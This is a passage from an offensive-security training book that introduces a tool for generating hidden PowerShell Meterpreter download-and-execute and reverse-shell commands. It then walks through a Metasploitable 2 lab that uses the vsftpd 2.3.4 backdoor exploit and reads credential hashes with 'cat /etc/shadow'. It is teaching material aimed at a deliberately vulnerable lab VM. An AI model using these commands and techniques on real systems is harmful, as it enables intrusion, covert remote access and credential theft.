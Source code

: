 Note that all the remote PowerShell scripts are linked to either my code or to forked versions of other
people’s codes. I want to mention something here, which will be mentioned a couple more times
throughout the book: Remember to fork your own copies off of the original sources, so that you don’t
blindly run someone else’s code. You never know if someone is going to maliciously change the
PowerShell script randomly and now, either nothing works or even worse, your shells are going
somewhere else. Let’s dive into Easy-P to make your life much simpler.
● cd /opt/Easy-P
● python ./easy-p.py
THP Easy-P
One of the most common things I will do in this book is use PowerShell Meterpreter Scripts. Once
you execute the Easy-P script, select option 4. You will be presented with setting your localhost IP
and the port on which you want the Meterpreter script to connect back. Once that is done, you will
have an output similar to the following:
Example Easy-P Output
You will get four different outputs:
● Download from the Internet and execute: Download a PowerShell script from a
website then execute that script. This is great when you only have a simple shell and
do not have the ability to download files.
● Run from a local copy of the script: If you have already pushed a PowerShell file to
the system, it will output a command to import that PowerShell script and execute it.
● Base64 encoded version of download and execute: If for some reason you want to
obfuscate your encoded scripts or you run into character limitations, this will base64
your code and give you the execution command.
● Resource File: Lastly, you will be given the associated Resource File. A
Metasploit resource file is a quick way to automatically set up a handler for the
Meterpreter PowerShell script. Copy that resource script and save it to a file:
/opt/listener.rc.
All of the scripts are already configured to bypass execution policy, stay hidden, and run noninteractive. Take a look at all of the other menu choices in Easy-P, as it also has modules on Privilege
Escalation, Lateral Movement, Keylogging, PowerShell Meterpreter, and Change Users Execution
Policy. Feel free to fork my code and modify it to add all the PowerShell code you need.
Learning
This book is really geared toward those who have, at a minimum, some understanding of tools like
Nmap, Metasploit, Cain and Abel, aircrack and others. You should also have a high level of
understanding of attacks like buffer overflows and high-level languages like Python/Ruby.
If you need a quick refresher or need to do some testing, here is a little starter pack for you:
Metasploitable 2
One comment I received was that there were no beginner walk-throughs on how to use Metasploit or
fully test exploits using some of Metasploit’s features. This is where Metasploit 2 comes in as a great
test bed. Before we get started, we need to download the VMWare Image for Metasploitable 2.
Download:
http://sourceforge.net/projects/metasploitable/files/Metasploitable2/
Once you download Metasploitable 2, unzip it, and open it in VMware Player or Virtual Box, login
with the user account msfadmin and password msfadmin. Now, you have your vulnerable VM image
running.
LAB
Practice running Nmap, Masscan, or vulnerability tools against the vulnerable virtual machine. Once
you find the system vulnerable to an exploit, let’s get a shell on it. In our example, we found and are
going to take advantage of a flaw in vsftpd. So we can either do a search for the exploit (search
vsftpd) or we can go straight into the exploit.
● msfconsole
● use exploit/unix/ftp/vsftpd_234_backdoor (selects the exploit)
● show options (shows all the configuration options)
● set RHOST [IP] (sets the Metasploitable 2 IP)
● exploit (runs the exploit)
Metasploit Example
We were successfully able to exploit this vulnerability and read the stored passwords with: cat
/etc/shadow. To further dig into Metasploitable 2, check out the Rapid7 guide:
https://community.rapid7.com/docs/DOC-1875.
